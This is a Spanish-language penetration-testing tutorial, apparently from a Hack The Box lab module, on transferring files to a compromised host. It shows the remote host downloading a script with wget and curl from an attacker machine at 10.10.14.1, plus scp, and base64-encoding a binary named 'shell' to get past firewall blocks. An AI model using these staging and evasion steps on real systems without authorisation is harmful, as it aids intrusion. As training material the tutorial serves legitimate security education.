 **Transferencia de Archivos**  
Durante cualquier ejercicio de pruebas de penetración, es probable que necesitemos transferir archivos al servidor remoto, como scripts de enumeración o exploits, o transferir datos de vuelta a nuestra máquina de ataque. Si bien herramientas como Metasploit con un shell Meterpreter nos permiten usar el comando _Upload_ para subir un archivo, necesitamos aprender métodos para transferir archivos con un shell inverso estándar.

**Usando wget**  
Existen muchos métodos para lograr esto. Un método es ejecutar un servidor HTTP en nuestra máquina con Python y luego usar _wget_ o _cURL_ para descargar el archivo en el host remoto. Primero, vamos al directorio que contiene el archivo que necesitamos transferir y ejecutamos un servidor HTTP de Python en él:

Transferencia de Archivos
pista95@htb[/htb]$ cd /tmp pista95@htb[/htb]$ python3 -m http.server 8000 Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) 

Ahora que hemos configurado un servidor en escucha en nuestra máquina, podemos descargar el archivo en el host remoto donde tenemos ejecución de código:

Transferencia de Archivos user@remotehost$ wget http://10.10.14.1:8000/linenum.sh 

Observa que usamos nuestra IP (10.10.14.1) y el puerto en el que está ejecutándose nuestro servidor Python (8000). Si el servidor remoto no tiene _wget_, podemos usar _cURL_ para descargar el archivo:

Transferencia de Archivos user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh 

 _-o_ especifica el nombre del archivo de salida.
 
**Usando SCP**  

Otro método para transferir archivos es utilizando _scp_, siempre que tengamos credenciales de usuario _ssh_ en el host remoto. Podemos hacerlo de la siguiente manera:

  `Transferencia de Archivos pista95@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh  Contraseña de user@remotehost: ********* linenum.sh`

Ten en cuenta que especificamos el nombre del archivo local después de _scp_, y el directorio remoto donde se guardará después de los dos puntos `:`.

**Usando Base64**  
En algunos casos, puede que no podamos transferir el archivo directamente. Por ejemplo, el host remoto podría tener protecciones de firewall que impiden descargar archivos desde nuestra máquina. En este tipo de situación, podemos usar un truco simple para codificar el archivo en formato _base64_ y luego pegar la cadena _base64_ en el servidor remoto para decodificarla. Por ejemplo, si queremos transferir un archivo binario llamado _shell_, podemos codificarlo en _base64_ de la siguiente manera:

  `pista95@htb[/htb]$ base64 shell -w 0  f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU`

Ahora, podemos copiar esta cadena _base64_, ir al host remoto, y usar _base64 -d_ para decodificarla y redirigir la salida a un archivo:

  `user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell`

Este método es útil cuando los métodos convencionales de transferencia de archivos están bloqueados por medidas de seguridad como cortafuegos.

**Validando Transferencias de Archivos**  
Para validar el formato de un archivo, podemos usar el comando _file_ en él:


  `user@remotehost$ file shell shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header`

Como podemos ver, cuando ejecutamos el comando _file_ sobre el archivo _shell_, nos indica que es un binario ELF, lo que significa que lo transferimos correctamente. Para asegurarnos de que no hubo errores durante el proceso de codificación/decodificación, podemos verificar su hash md5. En nuestra máquina, podemos ejecutar _md5sum_ sobre el archivo:

   pista95@htb[/htb]$ md5sum shell  321de1d7e7c3735838890a72c9ae7d1d shell`

Luego, podemos ir al servidor remoto y ejecutar el mismo comando sobre el archivo que transferimos:

  `user@remotehost$ md5sum shell  321de1d7e7c3735838890a72c9ae7d1d shell`

Como podemos ver, ambos archivos tienen el mismo hash md5, lo que significa que el archivo fue transferido correctamente. Existen varios otros métodos para transferir archivos. Puedes revisar el módulo de Transferencias de Archivos para un estudio más detallado sobre el tema.
